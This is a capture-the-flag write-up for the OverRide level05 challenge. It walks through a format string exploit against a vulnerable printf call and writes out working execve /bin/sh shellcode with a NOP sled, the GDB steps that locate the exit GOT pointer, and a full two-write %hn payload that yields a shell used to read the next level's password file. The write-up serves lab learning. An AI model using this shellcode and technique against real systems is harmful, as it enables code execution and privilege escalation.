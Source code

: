 # level05

Based on the [source code](./source.c), we'll perform a *format string attack* on an unprotected `printf` call.
To avoid complications from the XOR operations in the code, we'll store our shellcode in an environment variable and overwrite the `exit@plt` address with its location.

The PLT entry for `exit` is actually a pointer to a pointer. Let’s inspect it:

```bash
(gdb)  info function exit
All functions matching regular expression "exit":

Non-debugging symbols:
...
0x08048370  exit@plt
...
(gdb) x/i 0x08048370
   0x8048370 <exit@plt>:        jmp    *0x80497e0
```

We'll set an environment variable named `SC`, containing a NOP sled followed by shellcode:

```bash
export SC=$(python -c 'print("\x90" * 1000 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80")')
```

Let's locate it in memory — any address in the NOP sled is usable (e.g., `0xffffdc59`):

```bash
(gdb) x/200s environ
...
0xffffdb1e:      "SC=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220"...
...
0xffffdf06:      "\220\220\220j\vX\231Rh//shh/bin\211\343\061\311̀"
...
```

We need to determine which argument index corresponds to our input:

```bash
level05@OverRide:~$ for ((i = 1; i < 42; i++)); do echo "AAAA $i %$i\$p" | ./level05; done
...
aaaa 10 0x61616161
...
```

We want to overwrite the pointer at `0x080497e0` with the address of our shellcode:`0xffffdc59`
We’ll write this using two half-word (%hn) writes, targeting:

- `0x080497e0` → to write the lower 2 bytes: 0xdc59 → 56409
- `0x080497e2` → to write the upper 2 bytes: 0xffff → 65535

Now, account for the 8 bytes taken up by the addresses at the beginning of the payload:
56409 - 8 = 56401   ← first padding
65535 - 56409 = 9126  ← second padding

We construct the format string:

```bash
(python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%56401c" + "%10$hn" + "%9126c" + "%11$hn"'; cat) | ./level05

```

Let's get the flag:

```bash
(python -c 'print "\xe0\x97\x04\x08"+"\xe2\x97\x04\x08"+"%56401d"+"%10$hn"+"%9126d"+"%11$hn"';cat) | ./level05
whoami
level06
cat /home/users/level06/.pass
<flag>
```
